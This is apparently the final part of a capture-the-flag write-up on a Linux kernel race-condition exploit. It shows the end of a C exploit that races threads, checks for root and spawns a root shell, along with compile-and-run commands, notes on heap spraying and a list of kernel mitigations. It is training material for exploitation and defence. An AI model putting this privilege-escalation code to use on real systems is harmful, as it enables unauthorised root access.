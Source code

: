```c
    // Let the race run
    sleep(2);

    // Stop threads
    stop_threads = 1;
    pthread_join(free_tid, NULL);
    pthread_join(edit_tid, NULL);

    printf("[*] Checking privileges\n");

    // Check if we gained root
    if (getuid() == 0) {
        printf("[+] Root privileges gained!\n");
        system("/bin/sh");
    } else {
        printf("[-] Exploit failed, uid still %d\n", getuid());
    }

    close(fd);
    return 0;
}
```

Compilation:

```bash
gcc -o exploit exploit.c -lpthread -static
./exploit
```

## Key Insights

- Kernel exploitation requires understanding of kernel data structures
- Race conditions in kernel code are extremely dangerous
- Proper locking mechanisms are essential for security
- Kernel heap spraying increases exploit reliability
- Static compilation avoids dependency issues

## Mitigation

Recommended mitigations:
- Use proper locking mechanisms (mutexes, spinlocks) for all shared data
- Implement atomic operations where appropriate
- Enable kernel hardening features (KASLR, SMEP, SMAP, KPTI)
- Regular code review for race condition vulnerabilities
- Use static analysis tools to detect concurrency issues

---

**Flag**: `FLAG{demo_kernel_flag_format}`
